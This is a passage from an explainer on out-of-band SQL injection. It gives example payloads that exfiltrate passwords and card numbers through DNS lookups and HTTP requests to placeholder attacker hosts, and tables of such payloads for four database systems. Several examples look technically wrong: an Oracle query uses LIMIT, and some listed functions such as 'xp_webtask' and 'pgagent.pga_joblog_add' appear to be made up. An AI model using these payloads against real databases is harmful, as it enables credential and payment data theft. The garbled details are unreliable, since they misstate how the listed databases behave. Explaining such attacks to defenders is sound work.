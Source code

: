 2. **Encode Data into External Requests**:  
   Stolen data (e.g., passwords, credit card numbers) is embedded into the payload of outbound requests. For example:  
   - **DNS Exfiltration**:  
     ```sql
     SELECT UTL_INADDR.GET_HOST_ADDRESS('password-' || (SELECT password FROM users LIMIT 1) || '.attacker-domain.com');
     ```  
     This forces the database to resolve a DNS query containing the stolen password in the subdomain.  
   - **HTTP Exfiltration**:  
     ```sql
     BEGIN  
       UTL_HTTP.REQUEST('http://attacker-server/log?data=' || (SELECT credit_card FROM payments));  
     END;  
     ```  
     The database sends the credit card number directly to the attacker’s server via an HTTP GET request.  

3. **Capture and Decode Data**:  
   Attackers set up listener servers (e.g., DNS servers, web endpoints) to capture the outbound requests. Data is extracted from the request parameters, domain names, or email content, then decoded to reveal the stolen information.  

---

### Common Channels for OOB Exfiltration  
| **Channel**       | **Mechanism**                                                                 | **Example Use Case**                                                                 | **Advantages**                          |  
|--------------------|-------------------------------------------------------------------------------|-------------------------------------------------------------------------------------|-----------------------------------------|  
| **DNS Queries**    | Data encoded into subdomains of a malicious domain.                          | Stealing usernames/passwords via DNS lookups.                                        | Fast, often unmonitored, low bandwidth. |  
| **HTTP Requests**  | Data sent as parameters in GET/POST requests to attacker-controlled endpoints. | Exfiltrating credit card details or database schemas.                                | High throughput, direct data transfer. |  
| **Email**          | Data embedded in email headers or bodies using SMTP functions.                | Sending stolen credentials to an attacker’s email address.                            | Reliable for structured data.          |  

---

### Database-Specific Risks and Exploitation Examples  
Different databases offer unique functions that attackers can exploit:  

| **Database**       | **Vulnerable Functions**                          | **Example Payload**                                                                 | **Purpose**                                  |  
|---------------------|--------------------------------------------------|-------------------------------------------------------------------------------------|---------------------------------------------|  
| **Oracle**          | `UTL_HTTP`, `UTL_TCP`, `UTL_SMTP`                | `UTL_HTTP.REQUEST('http://attacker.com?data=' || (SELECT username FROM users))`      | HTTP-based exfiltration of user credentials. |  
| **Microsoft SQL**   | `xp_webtask`, `xp_dirtree`                       | `EXEC xp_webtask 'http://attacker.com/log?data=' + (SELECT credit_card FROM payments)` | Sending payment data via HTTP callbacks.    |  
| **MySQL**           | `LOAD_FILE()`, `GET` (with `FEDERATED` engine)   | `SELECT LOAD_FILE('/etc/passwd') INTO DUMPFILE '/tmp/stolen.txt';`                   | Reading local files and exfiltrating via other means. |  
| **PostgreSQL**      | `pgagent` (job scheduling), `lo_export`          | `SELECT pgagent.pga_joblog_add('Stolen Data:', (SELECT secret FROM config));`       | Sending sensitive data via email or logs.   |  

---

### Advantages Over Traditional SQLi  
- **Bypasses Output Filters**: OOB SQLi circumvents WAFs or application logic that block direct data leakage (e.g., `UNION SELECT` or error messages).  
- **Speed and Efficiency**: Data is exfiltrated immediately, unlike time-based blind SQLi, which requires character-by-character inference.  
- **Stealth**: Low network noise compared to repeated timing attacks, making it harder to detect.  

---